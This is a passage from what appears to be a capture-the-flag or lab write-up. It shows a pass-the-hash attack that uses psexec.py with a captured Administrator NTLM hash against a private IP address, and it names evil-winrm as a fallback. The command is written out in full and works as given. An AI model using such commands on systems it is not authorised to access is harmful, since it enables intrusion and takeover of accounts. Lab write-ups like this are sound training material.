 The preferred path is to use `psexec.py` to log in by "passing the hash," utilizing the hash we've discovered as the password
```
aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc
```

Command we should run 
```
psexec.py "Administrator":@10.10.180.141 -hashes aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc
```
![[Pasted image 20230914182402.png]]

We could also use another tool if Psecec.py doesn't work in case
https://github.com/Hackplayers/evil-winrm

